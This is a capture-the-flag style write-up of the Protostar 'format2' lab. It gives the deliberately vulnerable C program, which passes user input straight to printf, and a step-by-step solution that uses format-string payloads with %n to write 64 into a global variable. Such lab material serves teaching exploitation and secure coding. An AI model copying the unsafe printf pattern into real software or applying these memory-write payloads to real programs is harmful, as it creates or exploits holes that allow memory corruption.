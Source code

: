 # Protostar - Format 2

### About ###

>This level moves on from format1 and shows how specific values can be written in memory.
>
>This level is at `/opt/protostar/bin/format2`

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

### Solution 

This challenge is almost the same as the previous one, but this time we are going to write a specific value in the variable `target`.

```
user@protostar:/tmp$ objdump -t /opt/protostar/bin/format2 | grep target
080496e4 g     O .bss  	00000004              target
```

First we need to find where our format string is in the stack.

```
user@protostar:/tmp$ for i in $(seq 1 5); do echo $i; python -c "print 'ABCDEFGHIJKLMNOP.%$i\$x'" | format2; echo; done;
1
EFGHIJKLMNOP.200
target is 0 :(

2
EFGHIJKLMNOP.b7fd8420
target is 0 :(

3
EFGHIJKLMNOP.bffff4f4
target is 0 :(

4
EFGHIJKLMNOP.44434241  <--- Our pattern
target is 0 :(

5
EFGHIJKLMNOP.48474645
target is 0 :(
```

It is the fourth value on the stack. We can already write something in `target`.

```
user@protostar:/tmp$ python -c "print '\xe4\x96\x04\x08EFGHIJKLMNOP.%4\$n'" | format2
EFGHIJKLMNOP.
target is 17 :(
```

Now we need to have exactly 64 characters before `%4$n` is used. `\xe4\x96\x04\x08EFGHIJKLMNOP.` is already 17 characters, like the program already told us. We still need `64 - 17 = 47` characters. We can use the technique from `format0` to write a specific number of whitespaces `%NUMc` where `NUM` is the number of whitespaces we want to write.

And that's how we can write 64 into `target`.

```
user@protostar:/tmp$ python -c "print '\xe4\x96\x04\x08EFGHIJKLMNOP.%47c%4\$n'" | format2
EFGHIJKLMNOP.
you have modified the target :)
```


